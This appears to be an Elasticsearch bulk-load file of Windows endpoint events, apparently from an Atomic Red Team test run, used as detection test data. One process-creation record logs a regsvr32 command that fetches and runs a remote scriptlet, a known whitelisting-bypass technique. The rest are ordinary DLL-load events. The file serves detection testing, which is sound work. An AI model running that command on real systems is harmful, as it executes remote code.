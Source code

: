 { "process": { "name": "cmd.exe", "pid": 2012, "entity_id": "{42FC7E13-CB3E-5C05-0000-0010A0125101}", "executable": "C:\\Windows\\System32\\cmd.exe" }, "@timestamp": 131883571822140000, "event": { "category": "process", "type": "terminate" } }
{"create":{}}
{ "process": { "parent": { "name": "cmd.exe", "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}", "executable": "C:\\Windows\\System32\\cmd.exe" }, "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll", "executable": "C:\\Windows\\System32\\regsvr32.exe", "ppid": 2652 }, "logon_id": 217055, "@timestamp": 131883573237130000, "event": { "category": "process", "type": "creation" }, "user": { "full_name": "bob", "domain": "ART-DESKTOP", "id": "ART-DESKTOP\\bob" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\regsvr32.exe", "name": "regsvr32.exe" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\ntdll.dll", "name": "ntdll.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\kernel32.dll", "name": "kernel32.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\KernelBase.dll", "name": "KernelBase.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\apphelp.dll", "name": "apphelp.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\AcLayers.dll", "name": "AcLayers.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\msvcrt.dll", "name": "msvcrt.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\user32.dll", "name": "user32.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\win32u.dll", "name": "win32u.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}
{ "process": { "name": "regsvr32.exe", "pid": 2012, "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}", "executable": "C:\\Windows\\System32\\regsvr32.exe" }, "dll": { "path": "C:\\Windows\\System32\\gdi32.dll", "name": "gdi32.dll" }, "@timestamp": 131883573237140000, "event": { "category": "library" } }
{"create":{}}